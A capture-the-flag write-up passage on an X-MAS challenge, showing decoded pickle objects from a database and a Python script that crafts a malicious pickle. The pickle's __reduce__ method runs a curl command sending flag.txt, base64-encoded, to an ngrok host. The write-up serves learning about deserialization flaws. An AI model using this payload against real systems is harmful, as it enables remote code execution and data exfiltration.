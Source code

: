 ```bash
+----+------------------------------------------------------------------------------------------------------------------------------------------+
...
```

## SQL Injection + Arbitrary Deserialization

Discovered some python objects inside the DB:

```bash
┌──(kali㉿kali)-[~/CTFs/X-MAS/manipulated]
└─$ echo 'gASVUAAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwJU25vd2ZsYWtllIwIYWN0aXZpdHmUjA1QYWNraW5nIGdpZnRzlIwCaWSUTnViLg==' | base64 -d
Packing giftsidNub.                                                                                                                                                                                                                         
┌──(kali㉿kali)-[~/CTFs/X-MAS/manipulated]
└─$ echo 'gASVWgAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwFU25vd3mUjAhhY3Rpdml0eZSMG0xvb2tpbmcgYXQgdGhlIG5hdWdodHkgbGlzdJSMAmlklE51Yi4=' | base64 -d
__main__Elf)}(nameSnowactivityooking at the naughty listidNub.                                                                                                                                                                              
┌──(kali㉿kali)-[~/CTFs/X-MAS/manipulated]
└─$ echo 'gASVSwAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwEQmVsbJSMCGFjdGl2aXR5lIwNSGVscGluZyBTYW50YZSMAmlklE51Yi4=' | base64 -d
Helping SantaidNub. 

```

Created a script to craft custom serialized python objects that once unserialized execute arbitrary code:

```python
import pickle
import base64
import os

# Credits to m3ssap0

class Elf:
    def __init__(self, name, activity, id):
        self.name = name
        self.activity = activity
        self.id = id
    
    def __reduce__(self):
        command = "curl https://229b-93-51-54-187.eu.ngrok.io/`cat flag.txt|base64`"
        return os.system, (command, )

def generate_exploit():
    serialized_exploit = base64.b64encode(pickle.dumps(Elf("0xbro", "pwning", 0))).decode("ascii")
    print("Serialized exploit object: %s" % serialized_exploit)
    return serialized_exploit

if __name__ == '__main__':
    exploit_object = generate_exploit()
```
